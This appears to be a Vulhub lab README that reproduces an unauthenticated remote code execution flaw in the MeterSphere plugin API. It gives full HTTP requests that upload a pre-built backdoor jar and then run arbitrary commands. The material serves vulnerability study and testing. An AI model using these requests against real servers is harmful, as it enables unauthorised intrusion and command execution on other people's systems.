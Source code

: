 # MeterSphere Plugin Endpoint Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

MeterSphere is a one-stop open source continuous testing platform under the GPL v3 open source license.

In the version v1.16.3 and before, MeterSphere's plugin API is unauthenticated and the attackers are able to upload plugins to the server and execute arbitrary code.

References:

- <https://xz.aliyun.com/t/10772>

## Vulnerable environment

Execute following command to start a MeterSphere server v1.16.3:

```
docker compose up -d
```

After the server is fully initialized, you can see the login page of MeterSphere on `http://your-ip:8081`.

## Exploit

Firstly, by visiting `http://your-ip:8081/plugin/list`, you can see that the success message is returned without being redirected to the login page, indicating that the plugin API can be accessed without authorization.

![](1.png)

Then, you should create a craft evil plugin. Vulhub prepares a pre-built backdoor jar for it: <https://github.com/vulhub/metersphere-plugin-Backdoor/releases/tag/v1.0.1>.

Upload the evil jar plugin to `/plugin/add` interface:

```
POST /plugin/add HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Length: 11985

------WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Disposition: form-data; name="file"; filename="metersphere-plugin-DebugSampler-1.0.1-jar-with-all-dependencies.jar"

[Paste your jar file]
------WebKitFormBoundaryJV2KX1EL5qmKWXsd--

```

![](2.png)

Take care of bytes encoding by yourself if you use Burpsuite to send the package.

Your plugin will be in the plugin list if above processing is successful:

![](3.png)

Finally, use following request to execute arbitrary command:

```
POST /plugin/customMethod HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 89

{
  "entry": "io.metersphere.plugin.DebugSampler.UiScriptApiImpl",
  "request": "id"
}
```

![](4.png)
